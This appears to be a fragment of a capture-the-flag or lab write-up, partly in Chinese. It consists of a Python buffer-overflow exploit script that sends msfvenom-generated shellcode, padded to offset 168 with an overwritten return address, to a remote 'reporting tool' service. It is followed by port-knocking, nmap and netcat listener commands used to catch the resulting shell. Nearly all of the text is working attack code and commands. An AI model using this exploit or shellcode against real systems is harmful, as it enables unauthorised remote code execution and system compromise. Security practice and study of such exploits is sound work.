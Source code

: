 # Default recv size
recvsize = 512
 
# Connnect to remote host
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((remotehost, remoteport))
client.recv(recvsize)
client.send("{0}\n".format(agentid))
client.recv(recvsize)
client.send("{0}\n".format(menuoption))
client.recv(recvsize)
 
# Payload genereated by Msfvenom, to be force fed into reporting tool
buf =  b""
buf += b"\xdb\xda\xd9\x74\x24\xf4\xbb\x99\x95\x96\x1f\x58\x33"
buf += b"\xc9\xb1\x12\x31\x58\x17\x83\xe8\xfc\x03\xc1\x86\x74"
buf += b"\xea\xc0\x73\x8f\xf6\x71\xc7\x23\x93\x77\x4e\x22\xd3"
buf += b"\x11\x9d\x25\x87\x84\xad\x19\x65\xb6\x87\x1c\x8c\xde"
buf += b"\x1d\x0c\x59\x0d\x4a\xb0\xa6\x2b\x80\x3d\x47\xfb\xf2"
buf += b"\x6d\xd9\xa8\x49\x8e\x50\xaf\x63\x11\x30\x47\x12\x3d"
buf += b"\xc6\xff\x82\x6e\x07\x9d\x3b\xf8\xb4\x33\xef\x73\xdb"
buf += b"\x03\x04\x49\x9c"
 
# Buffer is too small to trigger overflow. Fattening it up!
# 168 is the offset I found using pattern_offset
buf += "A" * (168 - len(buf))
 
# EAX call I made note of earlier in this segment
buf += "\x63\x85\x04\x08\n"
 
# And off we go!
client.send(buf)
------------------------------



敲震端口：
knock 10.211.55.36 7482 8279 9467
nmap 10.211.55.36 -p7788     ----这时候7788端口开启

nc -vlp 6666
python exp.py
